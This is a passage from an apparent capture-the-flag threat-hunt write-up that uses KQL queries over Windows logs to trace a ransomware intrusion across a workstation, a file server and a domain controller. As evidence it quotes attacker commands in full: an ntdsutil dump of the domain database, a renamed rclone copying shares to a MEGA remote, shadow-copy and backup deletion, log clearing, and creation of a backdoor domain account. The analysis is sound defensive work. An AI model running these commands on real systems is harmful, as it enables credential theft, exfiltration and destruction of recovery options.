**Earlier contact:** The SMB session did not start here. Network events show notepad.exe, the injected process from 7.3, opening TCP 445 to 172.16.0.8 at 02:57:21 and again at 02:59:36, 37 minutes before the net use (A11, Figure 7.9b). The 02:57:21 connection is the first hop to the file server; the 03:34:09 net use is the first time the credential is visible. Both are attacker activity.


*Figure 7.9a: A10 output. net use from spoolsv.exe at 10:34:09 PM local (03:34:09 UTC) with Emily Grant's password in the command line.*


*Figure 7.9b: A11 output. notepad.exe on BACKOFFICE-PC1 connecting to 172.16.0.8 on 445 at 9:57:21 PM and 9:59:36 PM local (02:57:21 and 02:59:36 UTC).*

### 7.10 Pivot: Reconnaissance staging on the workstation

**Question:** What is the zip that notepad.exe wrote to `C:\Users\Public`?

**Returned:** From A1 (Figure 7.1): notepad.exe created `C:\Users\Public\20260203185934_recon.zip` at 02:59:35, one second before its second SMB connection to the file server.

**Read:** The injected notepad.exe was collecting something and packaging it with a timestamped name. The name holds 2026-02-03 18:59:34, which is exactly 02:59:34 UTC minus eight hours, so the tool that built it was most likely running on a UTC-8 clock (Confidence: Low; it could also be a hard-coded offset). The contents of the zip are not in the table. The word "recon" and its timing, between the LSASS dump and the first lateral move, suggest network or account discovery output (Confidence: Medium).

### 7.11 Pivot: From file server to domain controller, and back

**Question:** Where does the attacker go after HL-FS01, and does traffic only flow one way?

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "3"
| where DestinationIp == "172.16.0.7"
| project EventTime, host, Image, process_exec, DestinationIp, DestinationPort
| order by EventTime asc
```

**Returned:** Fifteen connections from `C:\Users\Public\taskhostw.exe` on HL-FS01 to ADDC01 (172.16.0.7). The first two are at 03:35:12, to ports 49669 and 135. The rest run from 04:01:31 to 04:06:30 on ports 135 and 445.

**Read:** taskhostw.exe was already on the file server 63 seconds after the 03:34:09 net use mapped its C$ share; HL-FS01's first C2 callback is at 03:35:11 (Figure 7.21), one second before it touches the DC. That is consistent with the binary being copied over the share and started remotely (Confidence: Medium; the copy itself is not in my results). Port 135 plus a high port (49669) is the RPC endpoint mapper pattern used by WMI and DCOM, and 445 is SMB. Hop two, HL-FS01 to ADDC01, starts at 03:35:12. The workstation never talks to the DC directly in these results; each host is a stepping stone to the next.

```kql
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventID) == "3"
| where DestinationIp == "172.16.0.8"
| project EventTime, Image, process_exec, process_path, DestinationIp, DestinationPort
| order by EventTime asc
```

**Returned (reverse direction):** Three rows from ADDC01 to HL-FS01. svchost.exe to port 5353 at 04:35 and 04:47, and `C:\Windows\System32\wbem\WMIC.exe` to port 50430 at 04:44.

**Read:** The svchost.exe rows on 5353 are multicast DNS, normal Windows chatter, and are excluded. WMIC.exe is not. Once the attacker owns the DC, they use it to send WMI commands back down to the file server they compromised earlier. This is a mesh, not a straight line: the attacker manages every host from wherever they are.


*Figure 7.11a: A12 output. HL-FS01 taskhostw.exe to ADDC01, first at 10:35:12 PM local (03:35:12 UTC).*


*Figure 7.11b: A13 output. ADDC01 to HL-FS01. WMIC.exe at 11:44 PM local (04:44 UTC) is attacker activity; the svchost.exe rows on 5353 are mDNS noise.*

### 7.12 Pivot: What the attacker takes from the DC

**Question:** Once on ADDC01, how does the attacker get the domain's account database?

```kql
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventID) == "1"
| where CommandLine has_any ("ntdsutil", "ifm", "ntds.dit", "create full")
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

**Returned:** Four rows in two pairs. At 04:33:55, cmd.exe with parent `C:\Users\Public\taskhostw.exe` runs `cmd /c "ntdsutil \"ac i ntds\" \"ifm\" \"create full C:\Windows\Temp\ntds\" quit quit"`, and ntdsutil.exe starts from that cmd.exe. At 04:35:35 the same pair repeats, this time with parent `C:\Windows\System32\spoolsv.exe`.

**Read:** ntdsutil's Install From Media (IFM) option is a real DC provisioning feature. "create full" writes a complete copy of ntds.dit plus the SYSTEM and SECURITY hives to `C:\Windows\Temp\ntds`, which is everything needed to recover the password hash of every account in the domain, including krbtgt. The attacker ran it twice. Between the two runs taskhostw.exe injected the spooler on ADDC01 (04:34, Figure 7.6), so the second run came from the new spoolsv.exe foothold. Whether the first run failed or the second was insurance is not shown by process creation alone. With this data in hand, every domain password must be treated as known to the attacker.


*Figure 7.12: A14 output. Two ntdsutil IFM runs on ADDC01 at 11:33:55 PM and 11:35:35 PM local (04:33:55 and 04:35:35 UTC), first from taskhostw.exe, then from spoolsv.exe.*

### 7.13 Pivot: Log clearing across the estate

**Question:** Which hosts get their event logs cleared, which channel is always included, and which wipe is the biggest?

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where CommandLine contains "wevtutil"
| where CommandLine matches regex @"(?i)\s(cl|dl)\s"
| extend Channel = extract(@"(?i)\s(?:cl|dl)\s+""?([^""]+)""?", 1, CommandLine)
| where isnotempty(Channel)
| summarize ChannelsCleared=dcount(Channel), Channels=make_set(Channel),
            StartTime=min(EventTime), EndTime=max(EventTime) by host, bin(EventTime, 5m)
| order by ChannelsCleared desc
```

**Returned:** All three hosts appear (A15). Six wipe bursts:

| Burst (UTC) | Host | Channels cleared |
|---|---|---|
| 03:42:36 to 03:42:38 | HL-FS01 | 3 (Windows PowerShell, System, Security) |
| 05:13:09 | HL-FS01 | 5 |
| 05:14:18 | ADDC01 | 5 |
| 05:17:35 to 05:18:21 | BACKOFFICE-PC1 | 16 |
| 05:19:31 | HL-FS01 | 16 |
| 05:20:00 to 05:20:01 | ADDC01 | 16 |

**Read:** Security is cleared in every burst on every host without exception (A16, Figure 7.13b). That is the channel that records logons and account changes, the trail that maps the attacker's movement. The 16-channel wipe hits all three hosts but is staggered, workstation first, then file server, then DC, about a minute apart, which looks like one script walking the hosts in turn rather than three people typing (Confidence: Medium). On BACKOFFICE-PC1, rundll32.exe opened cmd.exe at 05:17:32, three seconds before that host's wipe started (Figure 7.3), which ties the workstation wipe back to the original implant.

The first wipe on HL-FS01 at 03:42:36 comes only eight minutes after the attacker arrived there, and before the backdoor drops and exfiltration on that host. The attacker cleaned up early on the file server, then again at the end everywhere.

**Why it did not work:** every event in this report comes from the forwarded copy in `HarborlightDental_CL`. Clearing the local channels removed the evidence from the hosts, not from the workspace.


*Figure 7.13a: A15 output. Every host that ran wevtutil, Clear-EventLog or Remove-EventLog: all three.*


*Figure 7.13b: A16 output. Channel per wevtutil cl command. Security appears in every burst on every host.*


*Figure 7.13c: A17 output. Channels cleared per host per 5-minute bin. The three 16-channel bursts run 12:17:35 AM to 12:20:01 AM local (05:17:35 to 05:20:01 UTC).*

### 7.14 Pivot: What leaves the network, disguised as what

**Question:** What tool moves data out of HL-FS01, where does it send it, and whose account receives it?

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "1"
| where Image endswith @"\MsMpEng.exe" or CommandLine contains "MsMpEng.exe"
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

**Returned:** Five rows on HL-FS01.

1. 03:57:40, cmd.exe, parent `C:\Users\Public\taskhostw.exe`:
   `cmd /c "C:\ProgramData\Microsoft\MsMpEng.exe --config C:\ProgramData\Microsoft\config.dat --password-command echo" "exf1ltr8 copy C:\Shares mega:HARBORLIGHT-exfil -q"`
2. 03:58, cmd.exe, parent taskhostw.exe: the same binary with `--config C:\ProgramData\Microsoft\rclone.conf copy C:\Shares mega:HARBORLIGHT-exfil -q`
3. 04:00, the same command again.
4. 04:03 and 04:05, `taskkill /f /im MsMpEng.exe`, parent cmd.exe.

A follow-up look at the cmd.exe rows in the same minute (A19) shows 03:58:20, `cmd /c "echo user = jwilson.vhr@proton.me >> C:\ProgramData\Micros…"` (path truncated in the grid).

**Read:** MsMpEng.exe is the name of the Microsoft Defender engine, but the real one lives under `C:\ProgramData\Microsoft\Windows Defender\Platform\<version>\` or `C:\Program Files\Windows Defender\`, never directly in `C:\ProgramData\Microsoft\`. The arguments give the tool away: `--config`, `--password-command` and `copy <source> <remote>:<path>` are rclone syntax (Confidence: High). The source is `C:\Shares`, the whole shared drive. The destination is a MEGA remote with a folder named HARBORLIGHT-exfil, so this was set up for this victim before the copy ran. The attacker first tried an encrypted config (config.dat with the password `exf1ltr8`), then built a plain rclone.conf by echoing values into it, including the MEGA account user `jwilson.vhr@proton.me`, and re-ran the copy twice. A Proton Mail address gives the registrant anonymity. The two taskkill commands at 04:03 and 04:05 stop the transfer process, which is when the attacker considered the copy done or stalled. How much data left is not measurable here (Blind Spot 1).

**Parent chain:** every exfil command has taskhostw.exe from `C:\Users\Public` as its parent, the same binary that was used for the UAC bypass on the workstation. One backdoor family drives the whole operation.


*Figure 7.14a: A18 output. rclone renamed as MsMpEng.exe on HL-FS01, three copy runs and two taskkill commands, 10:57 PM to 11:05 PM local (03:57 to 04:05 UTC).*


*Figure 7.14b: A18 expanded row. The 03:57:40 UTC command line: C:\Shares to mega:HARBORLIGHT-exfil with the config password exf1ltr8.*


*Figure 7.14c: Event detail pane for the 10:58:20 PM local (03:58:20 UTC) echo writing user = jwilson.vhr@proton.me into the rclone config.*

### 7.15 Pivot: Exfiltration timing against the log wipes

**Question:** Is exfiltration happening before, after or during the anti-forensics?

**Returned:** From 7.13 and 7.14, in order: log wipe on HL-FS01 at 03:42:36, backdoor drop at 03:44:58, exfil 03:57:40 to 04:05, anti-recovery 04:04:05 to 04:05:49, then the big wipes at 05:13 to 05:20.

**Read:** During. The attacker wiped HL-FS01's Security log, ran the exfiltration, destroyed recovery options while the last transfer was being killed, and came back to wipe everything again at the end. The phases are interleaved, not sequential, which shrinks the window in which anyone watching could have caught one step before the next started.

### 7.16 Pivot: Destroying recovery options

**Question:** Which host gets the full anti-recovery treatment, which gets less, and does it run more than once?

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where CommandLine has_any ("vssadmin", "wbadmin", "bcdedit", "reagentc")
| extend Technique = case(
    CommandLine contains "vssadmin", "VSS deletion",
    CommandLine contains "wbadmin",  "Backup deletion",
    CommandLine contains "bcdedit",  "Boot recovery modification",
    CommandLine contains "reagentc", "Windows Recovery modification",
    "Other")
| summarize Techniques=make_set(Technique), Count=dcount(Technique) by host
| order by Count desc
```

**Returned:** HL-FS01: VSS deletion, Backup deletion and Boot recovery modification (3). ADDC01: VSS deletion only (1). BACKOFFICE-PC1: none. The HL-FS01 timeline (A21) shows:

| Time (UTC) | Technique | Command line |
|---|---|---|
| 04:04:05 | VSS | `vssadmin delete shadows /all /quiet` |
| 04:04:06 | Boot | `bcdedit /set {default} bootstatuspolicy ignoreallfailures` |
| 04:04:06 | Boot | `bcdedit /set {default} recoveryenabled no` |
| 04:04:07 | Backup | `"C:\Windows\system32\mmc.exe" "C:\Windows\system32\wbadmin.msc" delete catalog -quiet` |
| 04:05:26 | All four | The same four commands again, all within the same second |
| 04:05:49 | VSS | `vssadmin list shadows` (and its `cmd /c` wrapper) |

**Read:** The file server gets everything: shadow copies deleted, the backup catalogue wiped, and boot recovery switched off so Windows will not offer repair. The DC only loses its shadow copies. The attacker spent the effort where the business data was, not where the highest privilege was. The full sequence runs twice, 81 seconds apart, then the attacker lists shadows at 04:05:49 to check that nothing survived. A second pass plus a verification step is scripted tradecraft, not someone typing commands. The wbadmin row is logged as mmc.exe with wbadmin.msc in the command line; the arguments `delete catalog -quiet` are what matter.


*Figure 7.16a: A20 output. Anti-recovery techniques per host. HL-FS01 gets three; ADDC01 gets VSS deletion only.*


*Figure 7.16b: A21 output. The HL-FS01 sequence at 11:04:05 PM and again at 11:05:26 PM local (04:04:05 and 04:05:26 UTC), then the vssadmin list shadows check.*

### 7.17 Pivot: A second backdoor on the domain controller

**Question:** Is there a second implant, separate from taskhostw.exe, on a different host?

```kql
HarborlightDental_CL
| where host has "ADDC01" and tostring(EventID) in ("1", "3")
| where Image has "OneDriveSync"
| project EventTime, EventID, Image, CommandLine, DestinationIp
```

**Returned:** OneDriveSync.exe running from `C:\Users\Public\OneDriveSync.exe` on ADDC01, with outbound network events. (Confirmed during the hunt; screenshot not retained. The DNS results in Figure 7.19 independently show ADDC01 among the hosts where one of the backdoor images resolved `cdn.cloud-endpoint.net`.)

**Read:** The real OneDrive client installs per user under `AppData\Local\Microsoft\OneDrive`, and it has no place on a domain controller at all. Same masquerade pattern as taskhostw.exe and MsMpEng.exe: a trusted Microsoft name, an untrusted folder. This one is independent of the workstation implant, so cleaning BACKOFFICE-PC1 would not remove it.

### 7.18 Pivot: A third backdoor on the file server

**Question:** Two implants on two hosts. Does the pattern extend to HL-FS01?

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "11"
| where Image contains "powershell"
| where TargetFilename matches regex @"(?i)\.(exe|dll)$"
| project EventTime, Image, TargetFilename
| order by EventTime asc
```

**Returned:** Two executables written by `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` on HL-FS01. 03:44:58, `C:\ProgramData\Microsoft\RuntimeBroker.exe`. 03:47:19, `C:\ProgramData\Microsoft\Windows Defender\MsMpEng.exe`.

**Read:** RuntimeBroker.exe is a real Windows process, but it lives in `C:\Windows\System32`. A copy written by PowerShell into `C:\ProgramData\Microsoft` is the third backdoor, and it is one of the images that beacons to the C2 domain (Figure 7.19). With taskhostw.exe on the workstation, OneDriveSync.exe on the DC and RuntimeBroker.exe on the file server, every host has its own way back in. Rebuilding one machine does not remove the attacker.

The second row is worth a note. PowerShell dropped a MsMpEng.exe into a "Windows Defender" folder at 03:47:19, but the binary that actually ran the exfiltration in 7.14 was `C:\ProgramData\Microsoft\MsMpEng.exe`, one folder up. How that second copy got there is not shown in my results (Lead L5).


*Figure 7.18: A22 output. PowerShell writing RuntimeBroker.exe and a MsMpEng.exe to C:\ProgramData\Microsoft on HL-FS01 at 10:44:58 PM and 10:47:19 PM local (03:44:58 and 03:47:19 UTC).*

### 7.19 Pivot: Where the backdoors phone home

**Question:** What infrastructure do the three backdoors call, and what is unusual about where it resolves?

```kql
HarborlightDental_CL
| where tostring(EventID) == "22"
| where Image has_any ("OneDriveSync.exe", "RuntimeBroker.exe", "taskhostw.exe")
| summarize Hosts=make_set(host), ResolvedIPs=make_set(QueryResults) by QueryName
| order by QueryName asc
```

**Returned:** Two query names. `ADDC01.Harborlight.local`, resolving to 172.16.0.7, queried from all three hosts (internal, the attacker locating the DC). `cdn.cloud-endpoint.net`, queried from HL-FS01, ADDC01 and BACKOFFICE-PC1, resolving to 172.67.174.46 and 104.21.30.237.

**Read:** Both addresses sit in Cloudflare's published ranges (104.21.0.0/16 and 172.67.0.0/16 are Cloudflare edge space). The C2 server hides behind a CDN, so the IPs are shared with large numbers of legitimate sites and change over time. Blocking the two IPs would be noisy and short-lived; the domain is the durable indicator. The hunt reference calls this domain fronting. Domain fronting specifically means the TLS SNI and the HTTP Host header name different domains, and this table has neither, so that cannot be confirmed here. What the data does prove is CDN-proxied C2 (T1090.002 External Proxy, with T1090.004 noted as unconfirmed).


*Figure 7.19: A23 output. DNS queries made by the three backdoor images. cdn.cloud-endpoint.net resolves to 172.67.174.46 and 104.21.30.237 from all three hosts.*

### 7.20 Pivot: One-off callback or a live channel?

**Question:** How much traffic goes to the C2 addresses, and over which ports?

```kql
HarborlightDental_CL
| where tostring(EventID) == "3"
| where DestinationIp in ("172.67.174.46", "104.21.30.237")
| summarize Connections=count() by host, DestinationPort
| order by host asc, Connections desc
```

**Returned:** 14,218 connections in total: 9,954 on port 443 and 4,264 on port 80. Per host (A26, Figure 7.21): HL-FS01 8,098, ADDC01 4,626, BACKOFFICE-PC1 1,494. (Port totals recorded in my notes; the per-port screenshot was not retained. The per-host totals in Figure 7.21 add up to the same 14,218.)

**Read:** This is a persistent beacon, not a check-in. About 70 percent rides HTTPS on 443 and blends with normal web traffic; the rest uses plain HTTP on 80, likely a fallback (Confidence: Low). HL-FS01 is the busiest, which fits it being the host the attacker worked from the longest.

### 7.21 Pivot: Is it really over?

**Question:** The loud part ends with the ransom notes around 05:23. How long did attacker access actually last?

```kql
HarborlightDental_CL
| where tostring(EventID) == "3"
| where DestinationIp in ("172.67.174.46", "104.21.30.237")
| summarize FirstCallback=min(EventTime), LastCallback=max(EventTime), Connections=count() by host
| order by LastCallback desc
```

**Returned:**

| Host | First callback (UTC) | Last callback (UTC) | Connections |
|---|---|---|---|
| ADDC01 | 2026-02-04 04:29:12 | 2026-02-04 18:47:29 | 4,626 |
| HL-FS01 | 2026-02-04 03:35:11 | 2026-02-04 14:47:52 | 8,098 |
| BACKOFFICE-PC1 | 2026-02-04 02:25:08 | 2026-02-04 09:23:49 | 1,494 |

**Read:** Not over. The DC kept calling out until 18:47:29 UTC, **13 hours 24 minutes** after the ransomware phase ended at about 05:23. In Harborlight's local time that is 1:47 PM on 4 February, hours after staff found the notes and reported it. The ransom note is what the victim sees; the beacons are what the attacker keeps. Counter-hypothesis 3 is rejected.

**Correction:** my flag answer for this question said "about 8 hours 24 minutes". That figure subtracted 05:23 UTC from 1:47 PM local without converting. The correct gap is 13 h 24 m.

Each host's first callback also lines up with the attacker's arrival there: BACKOFFICE-PC1 16 seconds after the second ISO, HL-FS01 62 seconds after the C$ mapping, ADDC01 at 04:29:12, about four minutes before the first ntdsutil run.


*Figure 7.21: A26 output. First and last C2 callback per host, in local time. ADDC01's last callback, 1:47:29 PM local, is 18:47:29 UTC.*

### 7.22 Pivot: A backdoor built into the domain

**Question:** Does the attacker create an account that survives a full rebuild of every host, and does it get privileged?

```kql
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventCode) == "4720" or CommandLine contains "svc_sql" or EventData_Xml contains "svc_sql"
| project EventTime, EventCode, Image, ParentImage, CommandLine, TargetUserName, EventData_Xml
| order by EventTime asc
```

**Returned:** At 05:21:56 (`UtcTime` 2026-02-04 05:21:56.043 in `EventData_Xml`), cmd.exe with parent `C:\Windows\System32\spoolsv.exe` runs `cmd /c "net user svc_sql Summer2024! /add /domain"`, net.exe runs the same command, and a Security 4720 (user account created) follows in the same second.

